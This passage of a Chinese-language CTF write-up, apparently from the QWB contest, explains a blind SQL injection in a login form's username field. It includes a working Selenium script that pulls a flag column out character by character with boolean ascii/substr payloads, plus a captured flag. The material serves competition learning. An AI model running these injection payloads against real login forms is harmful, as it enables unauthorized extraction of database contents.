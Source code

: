 ```python
            flag += chr(j)
            print flag
            break


```

flag:QWB{M0b4iDalao0rz0rz}

## Python is the best language 1

- 本以为要看flask的源码，后来随便又试出了盲注，在登陆点的用户名处
- 先注册一个用户，然后在登陆点拼接盲注的payload即可
- 但要注意这题会有一个csrf-token的验证，而且返回经常超时
- 所以直接用selenium模拟登陆更能看清楚出错状况
- 数据库经常出错，迫使递增改成了二分，脚本如下
- 爆出表名flaaaaag,猜出字段名flllllag

```python

from selenium import webdriver
from time import sleep

chromedriver = "/Applications/Google Chrome.app/Contents/MacOS/chromedriver" 
browser = webdriver.Chrome(chromedriver)
flag = ""
login ="http://117.50.16.51:20000/login?next=%2Findex"
password="gogodena"

def judge(num,mid):
	try:
		payload ="gogodena' and ascii(substr((select flllllag from flaaaaag),%s,1)) > %s and '1'='1"%(num,mid)
		browser.get(login) # Load page
		sleep(3)
		#loginwindow = browser.current_window_handle
		browser.find_element_by_id('username').send_keys(payload)
		print payload
		browser.find_element_by_id('password').send_keys(password)
		browser.find_element_by_id('submit').click()
		sleep(3)
		try:
			if(browser.find_element_by_id('post')):
				browser.get("http://117.50.16.51:20000/logout")
				return 1
		except:
			return 0
	except:
		print 'error'


for i in range(1,30):
	low =33
	high=127
	while low < high:
		mid=int((low+high)/2) 
		if judge(i,mid): 
			low=mid+1 
		else:  
			high = mid
		if (low==high):
			flag+=chr(low)
			print flag
			break   
```